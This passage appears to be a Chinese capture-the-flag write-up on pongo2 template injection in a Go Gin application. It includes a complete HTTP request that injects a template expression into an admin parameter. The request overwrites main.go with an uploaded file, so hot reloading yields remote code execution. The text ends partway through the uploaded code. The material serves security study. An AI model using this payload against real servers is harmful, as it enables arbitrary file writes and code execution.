 具体的可以查下pongo2 SSTI以及context的相关文档，参考：https://dummykitty.github.io/go/2023/05/30/Go-pongo-%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5.html

poc:

![image-20240327164048893](https://icfh-imgs-1313391192.cos.ap-nanjing.myqcloud.com/images/202403281826066.png)



那么问题来了？可以任意读、任意写，但是不知道flag在哪，不妨想想怎么进一步getshell

由于我使用的是fresh热部署，当服务文件修改时，会重新编译执行go文件，此处也是RCE的办法

利用：

- 读源码

![image-20240328182356447](https://icfh-imgs-1313391192.cos.ap-nanjing.myqcloud.com/images/202403281826758.png)



- 然后写文件，多写一条RCE的路由（~~考虑到没有校内vps，不然一般直接反弹shell~~）

``` http
GET /admin?name=%7B%25%20include%20c.SaveUploadedFile(c.FormFile(c.Request.Header.Filetype%5B0%5D),c.Request.Header.Filepath%5B0%5D)%20%25%7D HTTP/1.1
Host: 127.0.0.1:3000
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Filetype: file
Filepath: /home/ctfer/app/main.go
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrftoken=q8pYXi0Pe5IGRo6rCTonyIMChfFpovj1; session-name=MTcxMTA2NTkzNXxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzaXqKrp-8lPsyq0EqYjYDyChtvEVjpT-5vNJCAFJBclw==
Connection: close
Content-Type: multipart/form-data; boundary=01f54ee8f2872c8a0d42d14f70cdc1fe

--01f54ee8f2872c8a0d42d14f70cdc1fe
Content-Disposition: form-data; name="file"; filename="test.png"
Content-Type: image/png

package main

import (
	"github.com/gin-gonic/gin"
	"main/route"
	"os"
	"os/exec"
)

func main() {
	//I don't tell you the session key, can you find it?
	//err := os.Setenv("SESSION_KEY", "fake_session_key")
	err := os.Unsetenv("GZCTF_FLAG")
	if err != nil {
```